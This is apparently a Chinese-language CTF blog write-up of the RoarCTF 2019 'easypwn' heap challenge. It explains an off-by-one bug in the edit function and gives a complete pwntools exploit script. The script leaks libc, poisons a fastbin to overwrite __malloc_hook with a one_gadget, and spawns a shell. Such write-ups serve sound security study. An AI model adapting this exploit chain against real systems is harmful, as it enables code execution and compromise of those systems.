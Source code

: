 ```yaml
---
layout: post
title: "19RoarCTF"
date:   2019-10-12 19:00:00
categories: WriteUp
tags: WriteUp RoarCTF
---
```


* content
{:toc}
比赛时正好遇上作业一大堆，粗略的看了一题就去赶作业了，赛后还是来重新看一遍题目




# easypwn
```
    Arch:     amd64-64-little                                                                                          
    RELRO:    Full RELRO                                                                                               
    Stack:    Canary found                                                                                             
    NX:       NX enabled                                                                                               
    PIE:      PIE enabled
```
防护全开
反编译看一下

![图片](https://uploader.shimo.im/f/jj7Vi0RS28Mu5Vdp.png)

标准菜单框架

然后又是愉快的逆结构体时间

这里就省略分析过程

```
struct note
{
  int inuse;
  int size;
  char *content;
}
```
![图片](https://uploader.shimo.im/f/3lJTRVXx9hkjDAhf.png)

![图片](https://uploader.shimo.im/f/ohsQTbMsvZEwjrbO.png)

我们可以看到create的功能只初始化了新chunk，并未往content写东西

然后简单审计过后就能发现有个很僵硬的漏洞

![图片](https://uploader.shimo.im/f/mnrLbOp5t5EMBjwY.png)

在往chunk_content内写东西时的size是cmp_min的返回值，而问题就出在cmp_min里

![图片](https://uploader.shimo.im/f/BDqW1RPx5HIeSvgl.png)这里僵硬在于这个额外多出的if，本来猜测可能是想输入的size是带'\n'的但发现这也不对就hen尬

总结下现在得到的可利用点

1.最大可创建size=0x100的chunk

2.edit存在offbyone漏洞

3.菜单选择用的scanf

那么先尝试利用off by one泄露出libc

![图片](https://uploader.shimo.im/f/3oLNBqRr7Scnt8ZZ.png)


这里有个细节是它没有用malloc创建堆而是calloc，但没必要去纠结，因为触发malloc_hook的不是这里的malloc

![图片](https://uploader.shimo.im/f/gzXbIS07Uy4a3463.png)


接着就是很直接的，uaf改fd到malloc_hook后把malloc_hook改成one_gadget再用doublefree报错里的malloc触发getshell

```
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./easy_pwn')
elf = ELF('./easy_pwn')
libc = elf.libc
def choice(idx):
	n.recvuntil('choice: ')
	n.sendline(str(idx))


def new(size):
	choice(1)
	n.recvuntil('size: ')
	n.sendline(str(size))


def write(idx,size,content):
	choice(2)
	n.recvuntil('index: ')
	n.sendline(str(idx))
	n.recvuntil('size: ')
	n.sendline(str(size))
	n.recvuntil('content:')
	n.send(content)


def free(idx):
	choice(3)
	n.recvuntil('index: ')
	n.sendline(str(idx))


def show(idx):
	choice(4)
	n.recvuntil('index: ')
	n.sendline(str(idx))


new(0x18)#0
new(0x18)#1
new(0x68)#2
new(0x10)#3
write(0,0x18+10,'a'*0x18+'\x91')
#gdb.attach(n)
free(1)
new(0x18)#1|2
show(2)
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3c4b78
print hex(libcbase)
malloc_hook = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase +0xf02a4 
#gdb.attach(n)
free(1)
new(0x68)
free(2)
write(1,0x8,p64(malloc_hook-0x18+5))
new(0x68)
new(0x68)
write(4,0x10+3,'aaa'+p64(one_gadget)*2)
free(2)
free(1)
n.interactive()
```
continue……
